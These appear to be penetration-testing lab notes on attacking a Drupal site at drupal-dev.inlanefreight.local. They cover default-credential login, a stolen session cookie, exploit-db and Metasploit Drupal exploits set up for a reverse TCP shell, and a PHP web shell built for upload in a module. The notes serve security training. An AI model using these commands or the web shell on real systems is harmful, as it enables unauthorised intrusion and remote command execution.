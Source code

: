 [+] Possible version(s):
    8.5.0
    8.5.0-rc1
    8.5.1
    8.5.2
    8.5.3
    8.5.4
    8.5.5
    8.5.6

[+] Possible interesting urls found:
    Default admin - http://drupal-dev.inlanefreight.local/user/login

http://drupal-dev.inlanefreight.local/user/login
admin
admin

SESS1870755745b9b67ba28e06f87f264552=ZpXCP9O1aCK1ZOrDt6FNRbNZdVOoIIRn5F6VKPOa8AU

https://www.exploit-db.com/download/34992
python2.7 34992.py -t http://drupal-dev.inlanefreight.local -u hacker -p pwnd

[X] NOT Vulnerable :(

sudo msfconsole -q

sudo mkdir /root/.msf4/modules/exploits/
sudo mkdir /root/.msf4/modules/exploits/php/
sudo mkdir /root/.msf4/modules/exploits/php/webapps/

sudo cp /usr/share/exploitdb/exploits/php/webapps/44557.rb /root/.msf4/modules/exploits/php/webapps/

[msf](Jobs:0 Agents:0) >> reload_all

search 44557

use exploit/php/webapps/44557
set rhosts 10.129.189.125
set VHOST drupal-dev.inlanefreight.local
set drupal_session SESS1870755745b9b67ba28e06f87f264552=ZpXCP9O1aCK1ZOrDt6FNRbNZdVOoIIRn5F6VKPOa8AU
set DRUPAL_NODE 1
set LHOST 10.10.15.142
show options 
exploit

[*] Started reverse TCP handler on 10.10.15.142:4444 
[-] Exploit failed: NoMethodError undefined method `first' for nil:NilClass
[*] Exploit completed, but no session was created.

--> Failed

http://drupal-dev.inlanefreight.local/#overlay=admin/modules


wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

vi shell.php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
